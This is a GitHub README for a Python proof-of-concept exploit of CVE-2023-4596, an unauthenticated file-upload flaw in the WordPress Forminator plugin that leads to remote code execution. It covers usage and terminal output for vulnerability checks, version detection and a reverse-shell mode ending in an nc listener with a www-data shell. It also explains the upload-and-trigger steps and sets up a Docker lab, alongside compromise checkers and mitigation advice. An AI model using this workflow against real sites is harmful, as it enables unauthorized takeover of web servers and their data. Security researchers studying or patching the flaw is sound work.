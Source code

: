 # CVE-2023-4596
PoC Script for CVE-2023-4596, unauthenticated Remote Command Execution through arbitrary file uploads.
<br>
<br>
[Video of PoC being used](https://youtu.be/C9hSA5vZFYo)
<br>
[Nuclei Template](https://github.com/projectdiscovery/nuclei-templates/pull/8118/files)
<br>
[News article](https://securityonline.info/cve-2023-4596-critical-wordpress-plugin-forminator-flaw-affects-over-400k-sites/)
<br>
[WordFence](https://www.wordfence.com/threat-intel/vulnerabilities/wordpress-plugins/forminator/forminator-1246-unauthenticated-arbitrary-file-upload)
<br>
[NVD Nist](https://nvd.nist.gov/vuln/detail/CVE-2023-4596)
<br>

# Summary
A critical vulnerability has been discovered in the WordPress plugin Forminator, which enables an unauthorized attacker to upload arbitrary files to a server. The initial proof of concept (PoC) was poorly written, the original researcher shared a few unclear screenshots along with a request containing unexplained code. So I wrote a python script to simplify and automate the process.

The vulnerability is caused by an error in the validation process for file types. When attempting to upload a prohibited file format, such as PHP, an alert is generated stating that the "Uploaded file's extension is not allowed." Despite this notification, the uploaded file is not blocked but rather, it is successfully uploaded and can be accessed within the "/wp-content/uploads" folder of the site. This vulnerability can lead to remote code execution.

Forminator is currently active on more than 400,000 sites, and with the simplicity of the vulnerability, it is quite easy to gain control over any site running Forminator with file upload enabled.

# Usage
Find a page running Forminator <= 1.24.6 with an upload function on the page. **Copy the full URL of the page that is running file upload postdata using Forminator, if only the domain is specified it will spit out an [error](https://github.com/E1A/CVE-2023-4596/blob/main/README.md#known-errors).** You can use [interactsh](https://app.interactsh.com/) or Burp Collaborator to generate a link, which you can paste in the selected field. 
After a successful upload, a request should appear in interactsh or burp within 5 seconds, indicating it is vulnerable.

<br> 

### Verifying that an instance is vulnerable without causing any harm.
```
user@debian:~$ python3 exploit.py -u http://127.0.0.1:8000/?p=7

______                   _             _              ______  _____  _____
|@E1A |                 (_)           | |             | ___ \/  __ \|  ___|
| |_ ___  _ __ _ __ ___  _ _ __   __ _| |_ ___  _ __  | |_/ /| /  \/| |__
|  _/ _ \| '__| '_ ` _ \| | '_ \ / _` | __/ _ \| '__| |    / | |    |  __|
| || (_) | |  | | | | | | | | | | (_| | || (_) | |    | |\ \ | \__/\| |___
\_| \___/|_|  |_| |_| |_|_|_| |_|\__,_|\__\___/|_|    \_| \_| \____/\____/


Input out-of-band link: <input link>

[+] Sending payload to target
[+] Successful file upload!

Uploaded File Location: http://127.0.0.1:8000/wp-content/uploads/2023/09/RefhnSzyQe.php

[+] Sending request to uploaded file...
[+] Successfully triggered the uploaded file!
[+] Check for an incoming request
```
<br> 

### Extracting the version to check if the instance is vulnerable
```
user@debian:~$ python3 exploit.py -u http://127.0.0.1:8000/?p=7 -v

______                   _             _              ______  _____  _____
|@E1A |                 (_)           | |             | ___ \/  __ \|  ___|
| |_ ___  _ __ _ __ ___  _ _ __   __ _| |_ ___  _ __  | |_/ /| /  \/| |__
|  _/ _ \| '__| '_ ` _ \| | '_ \ / _` | __/ _ \| '__| |    / | |    |  __|
| || (_) | |  | | | | | | | | | | (_| | || (_) | |    | |\ \ | \__/\| |___
\_| \___/|_|  |_| |_| |_|_|_| |_|\__,_|\__\___/|_|    \_| \_| \____/\____/


[+] Vulnerable version found: 1.24.6
```

<br>

### Starting a reverse shell on the instance
```
user@debian:~$ python3 exploit.py -u http://127.0.0.1:8000/?p=7 -r

______                   _             _              ______  _____  _____
|@E1A |                 (_)           | |             | ___ \/  __ \|  ___|
| |_ ___  _ __ _ __ ___  _ _ __   __ _| |_ ___  _ __  | |_/ /| /  \/| |__
|  _/ _ \| '__| '_ ` _ \| | '_ \ / _` | __/ _ \| '__| |    / | |    |  __|
| || (_) | |  | | | | | | | | | | (_| | || (_) | |    | |\ \ | \__/\| |___
\_| \___/|_|  |_| |_| |_|_|_| |_|\__,_|\__\___/|_|    \_| \_| \____/\____/


Enter IP address: <input IP>
Enter port: <input port>

[+] Sending payload to target
[+] Successful file upload!

Uploaded File Location: http://127.0.0.1:8000/wp-content/uploads/2023/09/IXLTyDMTEg.php

[+] Sending request to uploaded file...
[-] Request timed out. This could be due to the server being unavailable or because you started an reverse shell



user@debian:~$ nc -lnvp 9001
Listening on 0.0.0.0 9001
Connection received on 127.0.0.1 52760
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```
# How does the script work?
The script only needs a full URL of a page that is using Forminator with file uploads enabled and an interactsh link to determine if the instance is vulnerable. The first request is sent to the page to extract the forminator_nonce and form_id which are values that are different for every page. After retrieving these values, a second request is sent out that uses these extracted values, and the PHP file is uploaded. This PHP file uses the interactsh link that was provided earlier by the user and adds it to the script. When the page is visited where the PHP script is located, a request will show up in interactsh showing that the site is vulnerable. 
Regex is used for splitting the URL into parts that are used later in the request, it is also used to determine the version of Forminator that is printed when using the -v argument. The location where the file is uploaded depends on what year and months you upload the file. That is why I used datetime to determine the current months and year, which is also used later to send the request to the uploaded file location. 
When testing the vulnerability, I was using a single filename, but after sending multiple files, i noticed only the first uploaded file would start. To fix that, a random string is used for every request.

# Known errors

**[-] Could not extract forminator_nonce** <br>
This exploit only works when a link is provided of the exact page where the file upload is enabled with Forminator. When a link is provided with just the domain or a page that is not running a file upload on it, it spits out an error. This is because it exports the forminator_nonce from the provided URL and if this page is not running Forminator or the Forminator file upload, it can't find the value and can't use it. You can also check by finding the string "forminator-field-post-image-postdata" in the source code of the site. A full link, for example, looks like this: `http://127.0.0.1:8000/?p=7`. You can find the full issue [here](https://github.com/E1A/CVE-2023-4596/issues/1).

# How to check if you are compromised
I've included two files (checker.sh and checker.bat) in the repo that check the current folder and subfolders for any files with a blocked extension. When these are found, they will be displayed. The reason for this script is that for every month the plugin has been installed, a new folder is created, which can take a lot of work to manually check all of them.

# Mitigation
Update to the latest version

## Installation
1. cd CVE-2023-4596/ && docker-compose up -d
2. Browse to `http://127.0.0.1:8000`
3. Set up a wp account and download the vulnerable plugin found [here](https://downloads.wordpress.org/plugin/forminator.1.24.6.zip)
5. Create a form with postdata or a file upload and publish it to a post
6. Paste the full URL in the command and run it.
7. Enjoy ( /・・)ノ

## Disclaimer
The script provided is for educational purposes only, I am not responsible for your actions.

<br>

[Twitter](https://twitter.com/7hreathunter) <br>
Made by Finn van der Knaap

